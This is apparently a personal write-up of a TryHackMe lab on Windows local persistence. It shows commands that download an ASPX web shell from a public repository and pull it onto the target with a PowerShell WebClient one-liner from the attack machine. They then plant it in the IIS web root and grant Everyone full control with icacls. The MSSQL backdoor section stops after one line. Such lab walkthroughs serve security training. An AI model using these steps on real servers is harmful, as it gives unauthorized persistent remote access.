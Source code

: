 # About This Module
Module link: https://tryhackme.com/room/windowslocalpersistence

**Please feel free to point out any errors that you may see in this writeup!**

This writeup was last updated: 07/06/2023

# Using Web Shells
1. Started this room's machine
2. `wget <ASPX.NET WEB SHELL URL>`
```Bash
root@ip-10-10-105-255:~# wget https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmdasp.aspx
--2023-07-07 21:55:08--  https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmdasp.aspx
Resolving github.com (github.com)... 140.82.121.4
Connecting to github.com (github.com)|140.82.121.4|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 20216 (20K) [text/plain]
Saving to: \u2018cmdasp.aspx\u2019

cmdasp.aspx       100%[==========>]  19.74K  --.-KB/s    in 0.03s   

2023-07-07 21:55:08 (767 KB/s) - \u2018cmdasp.aspx\u2019 saved [20216/20216]

```
3. `sudo python -m http.server`
```Bash
```
4. `PowerShell "(New-Object System.Net.WebClient).Downloadfile('http://<ATTACK MACHINE IP>:8000/<ASPX.NET WEB SHELL FILE1>','<ASPX.NET WEB SHELL FILE2>.exe')"`
```PowerShell
PS C:\Users\Administrator> PowerShell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.105.255:8000/cmdasp.aspx','shell.aspx')"
```
5. `dir`
```PowerShell
PS C:\Users\Administrator> dir


    Directory: C:\Users\Administrator


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---        3/17/2021   3:13 PM                3D Objects
d-r---        3/17/2021   3:13 PM                Contacts
d-r---         6/8/2022   4:40 AM                Desktop
d-r---        5/29/2022  12:07 AM                Documents
d-r---        5/29/2022  12:07 AM                Downloads
d-r---        3/17/2021   3:13 PM                Favorites
d-r---        3/17/2021   3:13 PM                Links
d-r---        3/17/2021   3:13 PM                Music
d-r---        3/17/2021   3:13 PM                Pictures
d-r---        3/17/2021   3:13 PM                Saved Games
d-r---        3/17/2021   3:13 PM                Searches
d-r---        3/17/2021   3:13 PM                Videos
-a----         7/7/2023   9:00 PM          20216 shell.aspx
```
6. `move shell.aspx C:\inetpub\wwwroot\`
```PowerShell
```
7. `explorer.exe "http://10.10.26.163/shell.aspx"`
```PowerShell
```

![]()

8. `icacls <ASPX,WEB SHELL FILE PATH> /grant Everyone:F`
```PowerShell

```

9. `explorer.exe "http://10.10.26.163/shell.aspx"`
```PowerShell
```

![]()

10. `C:\flags\flag16.exe`
```PowerShell
```

# Using MSSQL as a Backdoor
1. Started this room's machine
